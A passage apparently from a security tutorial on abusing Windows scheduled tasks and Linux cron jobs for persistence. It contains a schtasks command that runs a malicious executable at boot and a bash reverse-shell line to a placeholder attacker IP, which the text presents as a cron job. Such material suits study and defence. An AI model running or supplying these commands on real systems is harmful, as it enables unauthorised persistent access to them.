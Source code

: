 4. **Persistence via Task Creation**
   Even if an attacker's session is terminated, they can create a scheduled task to run malicious code at the next system boot or login. For example:

```powershell
schtasks /create /tn "PersistenceTask" /tr "C:\path\to\malicious.exe" /sc onstart
```

- This ensures that the malicious executable runs every time the system starts.

5. **Abusing Task Triggers**
   Scheduled tasks can be triggered by various events, such as system startup, user logon, or specific system events. Attackers can abuse these triggers to run their payloads at specific times or under specific conditions:
   - **On startup**: A task that runs every time the system boots can give attackers persistent access.
   - **On logon**: A task triggered when a user logs in can be used to execute malicious code when a specific user logs in.

## **2. Cron Jobs in Linux**

In Linux, **cron** is a daemon that executes scheduled commands or scripts at specified times. The cron service is typically used for system maintenance tasks, backups, or periodic jobs. Like Windows Task Scheduler, cron jobs can also be abused by attackers to escalate privileges, maintain persistence, or execute arbitrary code.

### **How Cron Jobs Work in Linux**

Cron jobs are defined in the following places:

- **User-specific cron jobs**: Stored in `/var/spool/cron/crontabs/username` or accessed via `crontab -e` for a specific user.
- **System-wide cron jobs**: Stored in `/etc/crontab` and `/etc/cron.*` directories (e.g., `/etc/cron.daily`, `/etc/cron.hourly`).

Each cron job consists of:

- **Time and Date**: The schedule for the job (minute, hour, day of month, month, day of week).
- **Command to Run**: The script or command that will be executed.

### **Common Techniques for Abusing Cron Jobs**

1. **Adding Malicious Cron Jobs**
   An attacker with sufficient privileges can add a new cron job to run a reverse shell or backdoor. For example, adding a cron job to run a reverse shell every minute:

```bash
/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

- This creates a cron job that opens a reverse shell to the attacker's IP address every minute.

2. **Modifying Existing Cron Jobs**
   If an attacker has write access to the crontab (e.g., via `crontab -e` or by modifying files in `/etc/cron.d/`), they can modify existing cron jobs to execute malicious commands. For example:

```bash
crontab -e
```
